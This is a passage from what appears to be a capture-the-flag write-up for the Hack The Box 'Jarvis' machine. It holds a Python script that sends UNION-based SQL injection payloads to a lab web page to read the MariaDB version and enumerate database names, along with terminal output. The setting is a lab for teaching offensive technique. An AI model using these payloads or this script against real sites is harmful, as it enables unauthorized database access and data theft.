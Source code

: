 - DBMS: MariaDB 10.1.37

**Now, to automate things, I'll write a Python script:**
```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup

class Exploit:
    def __init__(self, url):
        self.url = url

    def enumerateDatabase(self, payload):
        print(f'[*] Payload: {payload}')
        sqliUrl = f'{self.url}{payload}'

        respond = requests.get(sqliUrl)
        soup = BeautifulSoup(respond.text, 'html.parser')
        payloadResult = soup.h3.get_text()
        isPayloadResultEmpty = True if len(payloadResult) == 0 else False
        if isPayloadResultEmpty:
            print(f'[-] No result :(')
            return False, payloadResult

        return True, payloadResult

if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    payload = "7 UNION ALL SELECT NULL,@@version,NULL,NULL,NULL,NULL,NULL-- -"
    isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
    if not isExploitSuccess:
        print('[-] Exploit failed... Abort!!')
        exit()

    print(f'[+] Payload result: {payloadResult}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|19:50:14(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,@@version,NULL,NULL,NULL,NULL,NULL-- -
[+] Payload result: 10.1.37-MariaDB-0+deb9u1
```

**Enumerate database names:**
```python
if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    for offsetPosition in range(100):
        payload = f"7 UNION ALL SELECT NULL,schema_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.schemata LIMIT 1 OFFSET {offsetPosition}-- -"
        isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
        if not isExploitSuccess:
            print('[-] Exploit failed... Abort!!')
            break

        print(f'[+] Payload result: {payloadResult}')
```
